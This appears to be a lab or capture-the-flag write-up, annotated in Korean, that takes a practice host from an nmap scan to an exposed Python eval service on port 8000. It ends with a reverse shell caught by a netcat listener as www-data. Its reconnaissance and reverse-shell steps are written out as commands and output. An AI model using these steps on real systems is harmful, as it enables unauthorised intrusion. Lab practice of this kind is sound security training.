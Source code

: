 10.10.234.59

# nmap -Pn -sC -sV -T4 10.10.234.59 -oN nmap.txt --open -sS -> 22, 8000

┌──(root㉿docker-desktop)-[/]
└─# nmap -Pn -sC -sV -T4 10.10.234.59 -oN nmap.txt --open -sS
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 13:56 UTC
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 13:57 (0:00:39 remaining)
Nmap scan report for 10.10.234.59
Host is up (0.28s latency).
Not shown: 920 closed tcp ports (reset), 78 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 06:8f:ef:d3:a9:61:16:08:10:85:0b:ed:be:bc:53:6f (RSA)
| 256 ae:dc:5f:87:48:a1:5e:82:fd:72:26:6d:1f:14:ff:be (ECDSA)
|_ 256 63:b9:b8:e5:45:7c:27:20:7e:5e:fa:cd:d5:7a:c8:6c (ED25519)
8000/tcp open http-alt SimpleHTTP/0.6 Python/3.11.2
|\_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop:
| source code string cannot contain null bytes
| FourOhFourRequest, LPDString, SIPOptions:
| invalid syntax (<string>, line 1)
| GetRequest:
| name 'GET' is not defined
| HTTPOptions, RTSPRequest:
| name 'OPTIONS' is not defined
| Help:
|_ name 'HELP' is not defined
|\_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|\_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=7/20%Time=687CF5A3%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20defin
SF:ed\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20
SF:null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<strin
SF:g>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\
SF:x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20
SF:is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20n
SF:ot\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x
SF:20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sour
SF:ce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1
SF:B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x
SF:20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20
SF:syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20cod
SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.67 seconds

# http 10.10.234.59/ -> 페이지 탐색 불가

┌──(root㉿docker-desktop)-[/]
└─# http 10.10.234.59/

http: error: ConnectionError: HTTPConnectionPool(host='10.10.234.59', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7ffffd8d6f90>: Failed to establish a new connection: [Errno 111] Connection refused')) while doing a GET request to URL: http://10.10.234.59/

# nc 10.10.234.59 8000

┌──(root㉿docker-desktop)-[/]
└─# nc 10.10.234.59 8000
ls
name 'ls' is not defined

# 명령어 실행 되는 것 확인

(root㉿docker-desktop)-[/]
└─# nc 10.10.234.59 8000
print(1)
name 'ᅦprint' is not defined
^[[D^[[A^[[A
invalid syntax (<string>, line 1)
print(1+1)
2
whoami
name 'whoami' is not defined
id

# 10.10.234.59:8000에서 Python 인터프리터가 실행 중

ls, whoami 등은 쉘 명령어라서 작동하지 않음
print(1+1) → 2가 나온 것으로 Python 환경임을 확인

# nc -lvnp 4444 -> 공격자인 내 머신에서 대기하기

(root㉿docker-desktop)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.234.59] 40290
bash: /root/.bashrc: Permission denied
www-data@ip-10-10-234-59:~$ ls  
ㅣls

Command 'ㅣls' not found, did you mean:

command 'hls' from deb hfsutils (3.2.6-14)
command 'ils' from deb sleuthkit (4.6.7-1build1)
command 'bls' from deb bacula-sd (9.4.2-2ubuntu5)
command 'ols' from deb speech-tools (1:2.5.0-8build1)
command 'als' from deb atool (0.39.0-10)
command 'ls' from deb coreutils (8.30-3ubuntu2)
command 'jls' from deb sleuthkit (4.6.7-1build1)
command 'fls' from deb sleuthkit (4.6.7-1build1)

Try: apt install <deb name>

www-data@ip-10-10-234-59:~$

# 공격대상 컴퓨터 (파이썬 인터프리터) https://www.revshells.com/ 검색해서 실행
